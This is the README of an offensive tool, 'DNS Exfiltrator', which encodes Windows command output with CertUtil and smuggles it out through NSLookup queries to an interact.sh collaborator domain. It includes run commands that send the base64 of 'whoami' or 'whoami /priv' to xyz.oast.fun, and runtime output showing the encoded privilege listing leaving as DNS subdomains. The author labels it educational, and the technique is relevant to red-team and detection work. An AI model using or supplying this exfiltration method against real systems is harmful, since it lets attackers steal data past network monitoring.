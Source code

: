 # DNS Exfiltrator

Exfiltrate data with DNS queries. Based on CertUtil and NSLookup.

Base64 or Hex encode the command output using CertUtil, and then exfiltrate it in chunks up to 63 characters per query using NSLookup.

In case of Base64 encoding, some special characters will be replaced due to the domain name limitations:

| Base64 Character | Replacement |
| --- | --- |
| \+ | plus |
| \/ | slash |
| \= | eqls |

Tested on Windows 10 Enterprise OS (64-bit).

Made for educational purposes. I hope it will help!

Future plans:

* create a Python script to parse `interact.sh` results,
* create a one-liner out of the whole Batch script,
* create a Burp Suite extension that will use a Burp Collaborator server.

## How to Run

Download, unpack, give necessary permissions, and run the latest [interact.sh](https://github.com/projectdiscovery/interactsh/releases) client:

```fundamental
chmod +x interactsh-client

./interactsh-client -dns-only -json -o interactsh.json
```

After running the tool, you should be able to see the `interact.sh` (collaborator server) subdomain, e.g. `xyz.oast.fun`.

Next, make sure to specify either `base64` or `hex` as the encoding, and [Base64 encode](https://www.base64encode.org) your Batch one-liner command, e.g. `whoami` equals to `d2hvYW1p`.

Finally, open the Command Prompt from [\\src\\](https://github.com/ivan-sincek/dns-exfiltrator/tree/main/src) and run the following command:

```fundamental
dns_exfiltrator.bat xyz.oast.fun base64 d2hvYW1p
```

## Runtime

```fundamental
C:\Users\W10\Desktop>dns_exfiltrator.bat xyz.oast.fun base64 d2hvYW1pIC9wcml2
################################################################
#                                                              #
#                     DNS Exfiltrator v1.3                     #
#                                by Ivan Sincek                #
#                                                              #
# Exfiltrate data with DNS queries.                            #
# GitHub repository at github.com/ivan-sincek/dns-exfiltrator. #
#                                                              #
################################################################
Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    UFJJVklMRUdFUyBJTkZPUk1BVElPTiANCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0.xyz.oast.fun
Address:  206.189.156.69

Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    gDQpQcml2aWxlZ2UgTmFtZSAgICAgICAgICAgICAgICBEZXNjcmlwdGlvbiAgIC.xyz.oast.fun
Address:  206.189.156.69

Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    AgICAgICAgICAgICAgICAgICAgICAgU3RhdGUgICAgDQo9PT09PT09PT09PT09P.xyz.oast.fun
Address:  206.189.156.69

...
```
